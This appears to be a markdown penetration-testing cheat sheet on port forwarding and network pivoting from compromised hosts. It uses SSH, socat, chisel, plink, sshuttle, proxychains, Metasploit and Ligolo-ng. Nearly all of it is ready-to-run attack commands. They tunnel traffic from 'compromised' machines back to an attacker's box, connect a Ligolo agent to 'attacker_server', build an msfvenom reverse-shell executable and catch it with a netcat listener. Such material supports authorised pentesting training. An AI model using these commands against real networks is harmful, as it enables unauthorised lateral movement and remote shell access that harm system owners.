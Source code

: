 # Port Fowarding and Proxying
## Port Fowarding
### SSH Tunneling/Local Port Forwarding  
```
ssh user@<ip> -p port -L 8001:127.0.0.1:8080 -fN
```

### SSH Remote Port Forwarding
```
ssh -R 5555:127.0.0.1:5555 -p2222 <user>@<ip>
```

### Socat - Port Forward
```
./socat.exe TCP-LISTEN:8002,fork,reuseaddr TCP:127.0.0.1:8080
```

### chisel  - Remote Port Forward 
-> Your machine  
```
./chisel server -p <LISTEN_PORT> --reverse &
```

-> Compromised Host
```
./chisel client <ATTACKING_IP>:<LISTEN_PORT> R:<LOCAL_PORT>:<TARGET_IP>:<TARGET_PORT> &
```

### Chisel - Local Port Forward
-> Compromised Host  
```
./chisel server -p <LISTEN_PORT>
```

-> Your Machine  
```
./chisel client <LISTEN_IP>:<LISTEN_PORT> <LOCAL_PORT>:<TARGET_IP>:<TARGET_PORT>
```

### pklink - Remote Port Forward
```
cmd.exe /c echo y | plink.exe -ssh -l <user> -pw <password> -R 192.168.0.20:1234:127.0.0.1:3306 192.168.0.20
```

## Proxying - Network Pivoting
### sshuttle (Unix) - proxying  
```
sshuttle -r user@<ip> --ssh-cmd "ssh -i private_key" 172.16.0.0/24
```

### SSH + Proxychains
edit /etc/proxychains.conf with socks4 127.0.0.1 8080
```
ssh -N -D 127.0.0.1:8080 <user>@<ip> -p 2222
```
  
### chisel  - Reverse Proxy
-> Your Machine  
```
./chisel server -p LISTEN_PORT --reverse &
```
-> Compromised Host  
```
./chisel client <TARGET_IP>:<LISTEN_PORT> R:socks &
```

### chisel - Forward Proxy  
-> Compromised Host  
```
./chisel server -p <LISTEN_PORT> --socks5
```
-> Your Machine  
```
./chisel client <TARGET_IP>:<LISTEN_PORT> <PROXY_PORT>:socks
```

### metasploit - proxying 
```
route add <ip>/24 1
route print
use auxiliary/server/socks_proxy
run
```

### Ligolo-ng
```
sudo ip tuntap add user kali mode tun ligolo # Run this first to create a new tun interface for ligolo

ip route list # list routes

sudo ip link set ligolo up # turn on ligolo interface

./proxy -selfcert -laddr 0.0.0.0:443 # Run this on kali attacking machine to start the C2/proxy server

# On Jump host run 

./agent.exe -connect attacker_server:443 -ignore-cert

# After successfull connection is confirmed add route to the target network to kali's routing table

sudo ip route add <Internal_Network> dev ligolo

# then start a tunnel in ligolo using
start

#Nmap scanning thru ligolo
sudo nmap <Internal_Network_IP> -p- -sV -T3 -PE

#Sending reverse shell's back thru ligolo
So if we find ourselves in a situation where we have a pivot setup to the internal network, but the internal machine cant send back a shell to our attack box, we can use ligolo's TCP listeners to get our shell back on our kali box!

# On the Ligolo proxy setup a listener
listener_add --addr 0.0.0.0:1234 --to 127.0.0.1:9001 --tcp # This will make it so that any connections sent to port 1234 on our agent back to our kali box on 9001, using this for reverse shell.
listener_add --addr 0.0.0.0:8000 --to 127.0.0.1:80 --tcp # This will make it so that any connections sent to port 8000 on our agent back to our kali box on 80, using this for transfer tools.

# so if we need to get a shell back thru our pivot we would make a new payload that sends a shell to the Agent box on port 1234
msfvenom -p windows/x64/shell_reverse_tcp -f exe -o revshell-1234.exe LHOST=client01-IP LPORT=1234

#Set a netcat Listener on our Kali Linux
nc -lvnp 9001

# Now on the target/internal machine we want a shell on just run the revshell-1234.exe file and we get a shell!
.\revshell-1234.exe
```
